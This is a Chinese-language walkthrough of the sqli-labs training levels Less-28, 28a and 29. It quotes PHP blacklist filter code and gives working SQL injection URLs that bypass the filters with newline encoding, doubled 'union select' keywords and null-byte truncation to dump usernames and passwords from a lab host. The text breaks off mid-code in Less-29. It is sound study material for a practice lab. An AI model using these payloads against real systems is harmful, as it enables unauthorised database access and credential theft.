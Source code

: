 
## ***Less-28 Trick with SELECT & UNION***

测试单引号页面回显不正常，说明包裹参数的有但引号。`http://192.168.2.222/sqli-labs-master/Less-28?id=1' ;%00`截断后面的，页面还回显不正常，说明包裹参数的还有其他符号，在增加一个括号，回显正常`http://192.168.2.222/sqli-labs-master/Less-28?id=1') ;%00`,说明闭合方式为单引号括号`')`。

    function blacklist($id)
    {
    $id= preg_replace('/[\/\*]/',"", $id);				//strip out /*
    $id= preg_replace('/[--]/',"", $id);				//Strip out --.
    $id= preg_replace('/[#]/',"", $id);					//Strip out #.
    $id= preg_replace('/[ +]/',"", $id);			//Strip out spaces.
    //$id= preg_replace('/select/m',"", $id);	   		 	//Strip out spaces.
    $id= preg_replace('/[ +]/',"", $id);			//Strip out spaces.
    $id= preg_replace('/union\s+select/i',"", $id);	//Strip out UNION & SELECT.
    return $id;
    }

直接利用前面的知识绕过即可。

`http://192.168.2.222/sqli-labs-master/Less-28?id=.')%0aunionunion%0aselect%0aselect%0a1,group_concat(username,password),3%0afrom%0ausers;%00`成功绕过。

## ***Less-28a Trick with SELECT & UNION***

    function blacklist($id)
    {
    //$id= preg_replace('/[\/\*]/',"", $id);				//strip out /*
    //$id= preg_replace('/[--]/',"", $id);				//Strip out --.
    //$id= preg_replace('/[#]/',"", $id);					//Strip out #.
    //$id= preg_replace('/[ +]/',"", $id);			//Strip out spaces.
    //$id= preg_replace('/select/m',"", $id);	   		 	//Strip out spaces.
    //$id= preg_replace('/[ +]/',"", $id);			//Strip out spaces.
    $id= preg_replace('/union\s+select/i',"", $id);	//Strip out spaces.
    return $id;
    }

仅仅过滤了`union select`,直接用`union union select select`绕过即可。

## ***Less-29 Protection with WAF***

index.php的源码并没有过滤什么。

看看其他的。

login.php

    if(isset($_GET['id']))
    {
    	$qs = $_SERVER['QUERY_STRING'];
    	$hint=$qs;
    	$id1=java_implimentation($qs);
    	$id=$_GET['id'];
    	//echo $id1;
    	whitelist($id1);
    	   